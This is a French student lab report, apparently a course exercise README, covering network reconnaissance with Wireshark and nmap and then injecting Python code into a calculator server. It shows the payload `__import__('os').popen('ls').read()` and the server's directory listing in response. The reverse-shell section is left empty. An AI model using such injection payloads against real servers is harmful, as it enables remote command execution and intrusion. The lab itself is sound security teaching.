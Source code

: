 # 1. Reconnaissance

🌞 Déterminer

🦈[voir capture WIRESHARK](./Wireshark/TP5_Determiner.pcapng)


🌞 Scanner le réseau

trouvez une ou plusieurs machines qui héberge une app sur ce port

🦈[voir capture WIRESHARK](./Wireshark/p5_nmap.pcapng)


🌞 Connectez-vous au serveur

```
tom@Tom:~/Documents/B2-Reseau$ /bin/python3 /home/tom/Documents/B2-Reseau/tp5/client.py

```
C'est une calculattrice 

🌞 Injecter du code serveur

```

    userMessage = "__import__('os').popen('ls').read()"

```
```
tom@Tom:~/Documents/B2-Reseau$ /bin/python3 /home/tom/Documents/B2-Reseau/tp5/client.py
'afs\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nva
```
# 3. Reverse shell


🌞 Obtenez un reverse shell sur le serveur
```

```

